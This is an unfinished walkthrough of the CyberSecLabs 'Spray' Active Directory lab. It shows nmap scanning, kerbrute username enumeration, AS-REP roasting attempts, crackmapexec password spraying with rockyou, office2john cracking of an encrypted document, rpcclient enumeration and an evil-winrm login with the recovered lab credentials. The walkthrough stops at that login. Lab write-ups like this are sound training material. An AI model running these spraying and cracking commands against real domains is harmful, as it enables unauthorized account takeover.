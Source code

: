 ```yaml
---
description: https://www.cyberseclabs.co.uk/labs/info/Spray/
---
```


# Spray (WIP)

![](<../../../.gitbook/assets/image (605).png>)

## Nmap

```
sudo nmap 172.31.3.9 -sS -p- -sC

Not shown: 65513 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
| rdp-ntlm-info: 
|   Target_Name: SPRAY
|   NetBIOS_Domain_Name: SPRAY
|   NetBIOS_Computer_Name: SPRAY-DC
|   DNS_Domain_Name: spray.csl
|   DNS_Computer_Name: Spray-DC.spray.csl
|   DNS_Tree_Name: spray.csl
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-19T20:51:44+00:00
| ssl-cert: Subject: commonName=Spray-DC.spray.csl
| Not valid before: 2020-09-09T15:27:45
|_Not valid after:  2021-03-11T15:27:45
|_ssl-date: 2020-12-19T20:51:44+00:00; -3s from scanner time.                                                                                                                                                                              
5985/tcp  open  wsman                                                                                                                                                                                                                      
9389/tcp  open  adws                                                                                                                                                                                                                       
49667/tcp open  unknown                                                                                                                                                                                                                    
49669/tcp open  unknown                                                                                                                                                                                                                    
49670/tcp open  unknown                                                                                                                                                                                                                    
49675/tcp open  unknown                                                                                                                                                                                                                    
49676/tcp open  unknown                                                                                                                                                                                                                    
49679/tcp open  unknown                                                                                                                                                                                                                    
49696/tcp open  unknown                                                                                                                                                                                                                    
49703/tcp open  unknown                                                                                                                                                                                                                    
                                                                                                                                                                                                                                           
Host script results:                                                                                                                                                                                                                       
|_clock-skew: mean: -3s, deviation: 0s, median: -3s                                                                                                                                                                                        
|_nbstat: NetBIOS name: SPRAY-DC, NetBIOS user: <unknown>, NetBIOS MAC: 02:5c:13:73:3d:18 (unknown)                                                                                                                                        
| smb2-security-mode:                                                                                                                                                                                                                      
|   2.02:                                                                                                                                                                                                                                  
|_    Message signing enabled and required                                                                                                                                                                                                 
| smb2-time:                                                                                                                                                                                                                               
|   date: 2020-12-19T20:51:44
|_  start_date: N/A
```

## SMB

A standard quick check with null authentication using smbclient and crackmapexec produces no viable vectors to follow.

![](<../../../.gitbook/assets/image (606).png>)

## Kerberos

As Kerberos is open on port 88 we can try to enumerate some usernames with Kerbrute. We have a domain name from Nmap when port 3389 was enumerated.

```
kerbrute userenum /usr/share/seclists/Usernames/Names/names.txt -d spray.csl --dc 172.31.3.9
```

This only returns one result which was for the user 'calvin'.

![](<../../../.gitbook/assets/image (607).png>)

I decided at this point to try a bigger wordlist as I normally would not expect to pull one name from an Active Directory server.

```
kerbrute userenum /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -d spray.csl --dc 172.31.3.9
```

![](<../../../.gitbook/assets/image (608).png>)

Better results this time. Lets put them in a text file and Kerberoast them using Impacket's GetNPUsers.py script.

```
python2 GetNPUsers.py spray.csl/ -request -usersfile /home/kali/spray/users.txt  -dc-ip 172.31.3.9
```

![](<../../../.gitbook/assets/image (609).png>)

None of the users are Kerberoastable. Looking at our nmap results we can try password spraying against the list of users against SMB and WinRM.

We can use crackmapexec to kick off multiple instances of bruteforcing against our known users account. I will start with SMB to see if we get a hit.

```
crackmapexec smb 172.31.3.9 -u freedy -p /usr/share/wordlists/rockyou.txt
crackmapexec smb 172.31.3.9 -u calvin -p /usr/share/wordlists/rockyou.txt
crackmapexec smb 172.31.3.9 -u johana -p /usr/share/wordlists/rockyou.txt
```

![](<../../../.gitbook/assets/image (610).png>)

After a short while we get a hit from johana:johana

![](<../../../.gitbook/assets/image (611).png>)

We can check what access we get with smbclient.

```
smbclient -U johana -L \\\\172.31.3.9
```

![](<../../../.gitbook/assets/image (612).png>)

```
smbclient -U johana \\\\172.31.3.9\\spray
```

![](<../../../.gitbook/assets/image (613).png>)

I was unable to open the document due to encryption. We can confirm this with the `file` command.

```
kali@kali:~$ file Important\ Note.docx 

Important Note.docx: CDFV2 Encrypted
```

Kali comes installed with a Python script called office2john.py. We can use this to convert the document to a hash in which we can attempt to crack the encryption password.

![](<../../../.gitbook/assets/image (615).png>)

With the hash stored in a file we can run this against John and attempt to crack it with the rockyou.txt wordlist.

```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt /home/kali/spray/hash
```

After cracking we get the password '181818'. I was then able to open the document with LibreOffice on Kali.

![](<../../../.gitbook/assets/image (616).png>)

We can try spraying this password with our user list against SMB and WinRM with crackmapexec. Before we try crackmapexec lets check if Kylesir gets a hit on Kerbrute.

```
kerbrute userenum <usersfile> -d spray.csl --dc 172.31.3.9
```

![](<../../../.gitbook/assets/image (617).png>)

We can check our new users against Impackets GetNPusers.py.

```
python2 GetNPUsers.py spray.csl/ -request -usersfile <userfile>  -dc-ip 172.31.3.9
```

![](<../../../.gitbook/assets/image (618) (1).png>)

Nothing here unfortunately. Lets try crackmapexec.

```
crackmapexec smb 172.31.3.9 -u <usersfile>  -p Spray.csl1337 --continue-on-success
crackmapexec winrm 172.31.3.9 -u <usersfile>  -p Spray.csl1337 --continue-on-success
```

![](<../../../.gitbook/assets/image (619).png>)

Looks like we are not getting any hits with our new password and our new user. Looking at our initial Nmap results we still have RPC to try.

I ended up trying our known working credentials of johana:johana and was able to access RPC.

```
rpcclient -U johana 172.31.3.9
```

From here I was able to the `enumdomusers` command and we are able to see an extra users we have not come across yet.

![](<../../../.gitbook/assets/image (620).png>)

Lets try the new user hackzzdogs against SMB and WinRM.

```
crackmapexec smb 172.31.3.9 -u hackzzdogs -p Spray.csl1337
crackmapexec winrm 172.31.3.9 -u hackzzdogs -p Spray.csl1337
```

![](<../../../.gitbook/assets/image (621).png>)

Great, we have a valid hit. Lets use these credentials with Evil-WinRM.

```
evil-winrm -u hackzzdogs -p Spray.csl1337 -i 172.31.3.9
```

![](<../../../.gitbook/assets/image (623).png>)
